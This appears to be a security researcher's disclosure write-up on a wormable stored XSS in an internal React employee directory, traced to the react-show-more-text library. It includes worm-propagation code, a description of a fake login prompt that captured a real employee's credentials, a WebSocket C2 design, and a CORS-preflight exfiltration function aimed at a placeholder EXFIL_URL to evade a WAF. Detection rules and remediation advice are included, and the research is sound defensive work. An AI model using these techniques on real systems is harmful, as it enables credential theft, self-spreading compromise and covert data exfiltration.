


## Executive Summary

While working at a large global security organization, I identified a critical security vulnerability in an internal React-based application known as the *Employee Directory*. The investigation began with a routine test of an “Out of Office” (OOO) message field and evolved into the discovery of an **unpatched stored XSS vulnerability in a widely used open-source React library**, ultimately resulting in a **wormable stored XSS condition**.

By chaining backend trust in frontend validation with a supply-chain flaw in a UI dependency, I demonstrated how an attacker could execute arbitrary JavaScript across a trusted corporate domain. This capability enabled **credential harvesting**, **lateral movement across internal systems**, **persistent command-and-control infrastructure**, and **direct interaction with sensitive financial workflows**, including expense management, travel approvals, and ESPP data.

The exploit required no user interaction beyond viewing an infected profile and executed entirely within authenticated browser sessions, bypassing many traditional perimeter defenses.

*All findings were validated under controlled conditions and disclosed responsibly; no production data was harmed.*


**Vulnerability Risk Assessment: CRITICAL**

* **Estimated Severity:** 9.3 (CVSS 4.0) / 8.1 (CVSS 3.1)
* **Vulnerability Type:** Stored XSS / Supply Chain Worm  
* **Execution:** Passive (Zero-Click) trigger on page render
* **Impact:** Automated session hijacking, horizontal self-propagation across employee profiles, credential theft, lateral movement, financial manipulation, persistent C2 with post-employment survivability
* **Exploitability:** High (wormable)  
* **Root Cause:** Backend trust in frontend input combined with unsafe UI abstraction  


---

## Initial Discovery: Backend Trust in Frontend Validation

The *Employee Directory* application is hosted on `internal.corporate.com`, a privileged internal domain that also serves several high-impact systems, including expense management, travel workflows, time-off requests, and the Employee Stock Purchase Plan (ESPP). As such, any client-side execution on this origin carries elevated risk.

Initial testing involved submitting simple HTML markup (e.g., `<b>Away</b>`) into the OOO field. The frontend correctly stripped the markup, suggesting that client-side sanitization was in place. However, inspection of the network traffic revealed that this protection existed solely in the UI layer.

Replaying the request directly against the backend API using Postman demonstrated that the server accepted and persisted raw HTML without any sanitization:

`PUT /api/user/ooo-message`

Upon refreshing the profile, the injected HTML rendered correctly, confirming that untrusted input was stored verbatim in the backend and later rendered in the browser. This behavior established a classic stored-XSS precondition.

At this point, the remaining question was why the payload executed inside a React application that should escape string content by default.

---

## Root Cause: A Latent Supply-Chain vulnerability in react-show-more-text

It turned out that the execution sink was not introduced by the organization’s application code. Instead, it originated from a third-party dependency: `react-show-more-text`, a popular React component used to truncate and expand text while preserving clickable links.

To support link preservation, the library performs a series of non-trivial operations on raw HTML strings. In doing so, it bypasses React’s default escaping guarantees and ultimately renders content using `dangerouslySetInnerHTML`.

At a high level, the vulnerable logic flow is as follows:

1. User-controlled input enters the component as a string  
2. React safely escapes the string during the initial render  
3. The library assigns the escaped string to `innerHTML` for off-DOM layout measurement  
4. The content is extracted via `textContent`, preserving HTML entities  
5. The string is re-injected into the DOM using `dangerouslySetInnerHTML`

If the content fits within the layout constraints (i.e., truncation is not triggered), the payload remains structurally intact and executes when rendered.

```javascript
// Truncate.js (unpatched)
createMarkup = (str) => {
    return <span dangerouslySetInnerHTML={{ __html: str }} />;
};
```

This behavior is not accidental misuse but an architectural flaw caused by combining layout measurement, HTML string manipulation, and an explicit HTML injection sink without sanitization.

A full technical breakdown of the vulnerability, including DOM lifecycle analysis and the remediation patch, is documented separately:
👉 [Exploiting Layout Logic for DOM XSS in react-show-more-text]()

---

## Weaponization: From Stored XSS to Worm

To demonstrate the true impact of the vulnerability, I shifted from a simple `<b>` to a more sophisticated payload designed to fetch and execute external script logic via a remote server:

```html

```

By utilizing `with(document)`, I was able to bypass character limits and streamline the DOM manipulation required to inject the remote script tag, ensuring the payload remained small enough to avoid being 'sliced' by the library's truncation logic.


    
    
    <figcaption>
        <em>
        Figure 1: Employee profile before and after OOO message injection. The broken image icon marks the XSS execution point.
        </em>
    </figcaption>


### The Worm

Once arbitrary JavaScript execution was achieved on `internal.corporate.com`, the browser effectively became a trusted execution environment. I then developed a self-propagating, multi-stage payload (a worm) designed to propagate autonomously using the victim’s authenticated session.

The worm logic updated the victim’s OOO message via internal APIs, thereby infecting additional profiles. To reduce detection and suspicion, the payload avoided users who already had an OOO message set and immediately removed visible artifacts (such as broken image icons) from the DOM.

```javascript
if (!alreadyInfected && !userHasAwayMessage) {
    await infect(csrfToken);
}

async function infect(csrf) {
    await fetch(SET_OOO_MESSAGE_API, {
        method: "PUT",
        credentials: "include",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({
            description: ``
        })
    });
}
```

Because the *Employee Directory* application is one of the most frequently accessed internal applications, this mechanism enabled rapid and reliable propagation without requiring any user interaction.

>*Note: To prevent unintended spread, the worm’s propagation logic was explicitly gated behind a runtime safety flag and did not execute unless manually enabled during controlled testing.*

---

## Credential Harvesting via Contextual Trust Abuse
I then implemented a credential harvesting interface that precisely mimicked the native Chrome / Active Directory re-authentication prompt, including animations, visual depth, and interaction behavior. With code execution occurring on a trusted corporate origin, traditional phishing indicators were effectively neutralized.

The prompt appeared inline, without redirects or domain changes, and leveraged the fact that employees routinely encounter such dialogs during normal workflows. Keyboard escape paths were suppressed, and usernames were validated in real time to increase credibility.

During controlled testing, a senior developer from the internal tools team accidentally entered valid Active Directory credentials into the phishing authentication prompt, believing it to be a legitimate re-authentication request. This confirmed that, when rendered within a trusted corporate origin, the prompt was indistinguishable from native authentication flows.


    
    
    <figcaption>
        <em>
        Figure 2: Contextual phishing rendered inside a trusted corporate origin, dynamically adapting to browser theme (light and dark modes) to maximize legitimacy
        </em>
    </figcaption>


This demonstrated that XSS inside a trusted enterprise domain effectively collapses the boundary between legitimate authentication flows and attacker-controlled UI.

### Lateral Movement and Data Exfiltration
Because the exploit executed within an authenticated session on `internal.corporate.com`, it inherited the victim’s existing access rights.
This enabled direct interaction with internal APIs related to expense approvals, travel approvals, and ESPP data. In addition, if a payroll team member got infected, it would give the attacker access to the admin panel of the ESPP application, where they could initiate ESPP-related actions on behalf of other employees.


    
    
    <figcaption>
        <em>
        Figure 3: Internal financial systems reachable through an authenticated session after successful exploitation
        </em>
    </figcaption>


### Persistent C2 via WebSocket: Post-Employment Attack Surface

Beyond immediate exploitation, the worm's architecture enabled a more sophisticated threat: **persistent command-and-control (C2) infrastructure** via WebSocket connections.

By establishing a WebSocket channel to an attacker-controlled server, the payload could maintain **bidirectional, real-time communication** with infected browser sessions. This transformed static XSS into an interactive remote access tool, allowing the attacker to:

- Execute arbitrary commands within the victim's authenticated session context
- Dynamically adapt exploitation logic based on real-time reconnaissance
- Maintain control even after the initial attacker (e.g., a malicious insider) has been terminated from the organization

**The critical implication:** Even if the original attacker's corporate access was revoked, any employee who viewed the infected profile would serve as an unwitting proxy, granting the attacker **sustained access to internal systems through the victim's valid session credentials**.

This demonstrates how stored XSS in trusted environments creates not just an exploitation opportunity, but a **persistent foothold** that survives traditional access revocation mechanisms.

### CORS Preflight as an Exfiltration Channel

During the development of the exfiltration channel, I observed that while traditional `POST` requests were heavily scrutinized by the corporate Web Application Firewall (WAF), CORS Preflight (`OPTIONS`) requests represented a significant blind spot in the egress filtering policy.

Instead of attempting a noisy `POST` exfiltration that might trigger Deep Packet Inspection (DPI), I deliberately engineered a Preflight exfiltration channel. By adding the `X-Force-Preflight: 1` custom header, I forced the browser to send an `OPTIONS` request before the actual data transfer.

```javascript
async function exfiltrate(data) {
    const payload = btoa(JSON.stringify(data));
    await fetch(`${EXFIL_URL}?data=${payload}`, {
        method: "POST",
        headers: { "X-Force-Preflight": "1" }
    });
}
```

>*Note: The mechanism was validated exclusively using non-sensitive, synthetic test payloads to confirm feasibility, not to extract production data.*

**This bypass succeeded because:**
- Administrative Traffic Masking: The stolen data was encoded into the URL query parameters of the `OPTIONS` request.
- Blind Spot Execution: Most firewalls allow `OPTIONS` requests to pass through to maintain web functionality (CORS) and do not inspect them for data exfiltration.
- Stealth Exfiltration: The exfiltration server was intentionally configured not to respond with the necessary CORS headers to authorize the subsequent `POST`. This ensured that while the sensitive data was successfully captured during the initial `OPTIONS` handshake, the secondary, high-volume `POST` request was never executed. This kept the exfiltration entirely within the URL parameters of administrative traffic, remaining invisible to WAF body-inspection tools.

### Detection Engineering: Catching Preflight Abuse
To mitigate this type of "Low-and-Slow" exfiltration, organizations should implement the following detection rules in their SIEM/SOC:
- Entropy & Length Analysis on `OPTIONS`: Monitor for `OPTIONS` requests containing high-entropy strings or unusually long query parameters (e.g., Base64 blobs), as standard preflights rarely carry heavy data in the URL.
- Preflight-to-POST Lifecycle Monitoring: Alert on high volumes of `OPTIONS` requests that are not followed by successful `POST` requests, as this indicates a potential exfiltration attempt via preflight leakage.

---

## Contributing Factors (Summary)

This incident was enabled by a convergence of design and trust assumptions rather than a single isolated flaw:

- **Backend trust in frontend validation**, allowing unsanitized HTML to be persisted
- **A third-party UI component** that bypassed React’s escaping guarantees for layout and link handling
- **Execution within a high-trust corporate domain**, amplifying the blast radius of client-side code execution
- **Absence of compensating client-side controls** (e.g., restrictive CSP) to mitigate DOM-based injection

Individually, none of these issues would necessarily result in critical impact. Combined, they created a wormable exploitation path.

---

## Ethical Disclosure & Remediation

All findings were disclosed responsibly to the organization’s cybersecurity leadership. I provided a complete proof-of-concept, source code, and detailed remediation guidance, including recommendations to enforce backend HTML sanitization, audit third-party UI components for undocumented HTML parsing behavior, and deploy a restrictive Content Security Policy (CSP) to reduce the impact of client-side injection flaws.

**Vulnerability Status & Coordination:** I identified the root cause within a third-party dependency and developed a functional patch, and initiated a coordinated disclosure process with the maintainer.

**Impact & Scope:** The affected application was an internal, non-customer-facing system. No customer data or customer-facing products were impacted, and no sensitive production data was altered, misused, or exfiltrated during this research.

**Anonymization:** All domains, system names, screenshots, dates, and visual elements in this write-up have been anonymized or modified. Any resemblance to specific organizations is incidental and not intended as attribution.


---

## Conclusion

This research demonstrates how security failures often emerge at abstraction boundaries. A single helper component, written with legitimate goals, silently bypassed React’s safety model and enabled a high-impact supply-chain vulnerability.

When trusted frontend frameworks, backend assumptions, and third-party dependencies intersect without explicit trust boundaries, a single unsafe design choice can invalidate extensive defensive investments. Identifying and mitigating these architectural fault lines is essential to securing modern web applications.

If you’d like to discuss this research or related security topics, you can reach me on [LinkedIn](https://www.linkedin.com/in/rony-utevsky/).